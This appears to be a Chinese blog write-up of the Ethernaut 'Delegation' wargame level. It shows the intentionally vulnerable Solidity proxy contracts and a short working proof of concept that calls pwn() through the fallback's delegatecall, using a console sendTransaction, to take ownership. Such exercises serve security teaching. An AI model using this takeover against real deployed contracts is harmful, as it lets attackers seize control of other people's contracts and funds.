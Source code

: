 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-5'
date: 2022-12-9 20:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第六关Delegate  思路与POC

##### 目标: 获取Delegation合约的所有权

#### 先看代码:

##### 这里很明显是在测试你懂不懂的底层函数delegatecall的用途

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}
//此合约作为Delegate合约的代理,
//外部调用通过发送交易调用此合约的fallback函数调用具体声明逻辑的合约(此处为Delegate合约)
contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

poc思路:point_right:：在Delegation合约中并没有更改owner变量的逻辑,所以很明显你需要代理调用Delegate合约中的pwn函数

```solidity
 //生成call data
  function getData() public pure returns (bytes4 ) {
        return bytes4(keccak256("pwn()"));
    }
```

```js
/*
from:你的钱包地址
to:Delegation合约实例地址
data:字节码格式的函数名称 
*/
await sendTransaction({from: '0x0e21d35681E679C33dD49731935FB81F1aee8C05' , to:'0x9a47F3A18F013726705Ca844e15FDb5C5645A684',data:'0xdd365b8b' })
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
```

:ok_hand:

![info](./assets/1670591862405.png)
